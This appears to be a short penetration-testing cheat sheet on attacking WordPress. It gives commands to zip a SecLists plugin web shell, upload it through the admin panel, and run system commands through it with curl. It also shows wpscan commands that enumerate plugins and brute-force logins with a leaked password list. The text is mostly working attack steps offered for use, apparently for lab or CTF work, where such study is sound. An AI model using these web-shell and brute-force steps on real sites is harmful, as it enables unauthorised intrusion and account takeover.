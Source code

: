 # WordPress

* [https://www.hackingarticles.in/wordpress-reverse-shell/](https://www.hackingarticles.in/wordpress-reverse-shell/)




## Malicious Plugin

Write a web shell with a malicious plugin.

Copy a plugin shell from SecLists and zip it:

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
```

Upload `plugin-shell.zip` (Plugins → Add New) and install it (Upload Plugin → Browse... → Install Now) **but do not activate**! Now you can access the web shell:

```
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```




## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap [--plugins-detection aggressive] -o wpscan.out
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```
